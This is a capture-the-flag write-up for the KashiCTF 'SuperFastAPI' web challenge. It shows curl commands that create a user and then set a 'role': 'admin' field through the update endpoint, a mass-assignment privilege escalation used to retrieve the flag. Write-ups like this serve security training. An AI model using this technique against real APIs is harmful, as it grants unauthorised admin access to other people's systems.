 # KashiCTF Writeup: SuperFastAPI



Made my verty first API!

However I have to still integrate it with a frontend so can't do much at this point lol.

Challenge Overview

The challenge presented an API with the following endpoints:


After opening the given link it obly displayed this 
{"message":"Welcome to my SuperFastAPI. No frontend tho - visit sometime later :)"}


Then i checked for fastapi documentation online and got a subdirectory 'docs' of fastapi
Got this information 

GET /get/{username} – Retrieve user information

POST /create/{username} – Create a new user

PUT /update/{username} – Update user details

GET /flag/{username} – Retrieve the flag for a user


From the OpenAPI documentation, it was evident that the flag could only be retrieved if the user had the right privileges.


---

Reconnaissance

The first step was to analyze the API and test basic queries.

Testing the /flag/{username} Endpoint

We tried requesting the flag for a test user:

curl -X GET "http://kashictf.iitbhucybersec.in:20593/flag/testuser"

The response showed that the role was "guest" and did not return the flag.


---

User Creation

Since we had the /create/{username} endpoint, we attempted to create a new user named abel:

curl -X POST "http://kashictf.iitbhucybersec.in:20593/create/abel" \
-H "Content-Type: application/json" \
-d '{"fname": "CTF", "lname": "User", "email": "ctfuser@example.com", "gender": "other"}'

This successfully created the user abel.


---

Privilege Escalation via /update/{username}

We then explored the /update/{username} endpoint to see if we could modify our role.

curl -X PUT "http://kashictf.iitbhucybersec.in:20593/update/abel" \
-H "Content-Type: application/json" \
-d '{"fname": "CTF", "lname": "User", "email": "ctfuser@example.com", "gender": "other", "role": "admin"}'

Surprisingly, the server accepted the request and updated the user role to admin!


---

Retrieving the Flag

With our role now elevated to admin, we retried fetching the flag:

curl -X GET "http://kashictf.iitbhucybersec.in:20593/flag/abel"

This time, the server responded with the flag, successfully completing the challenge!
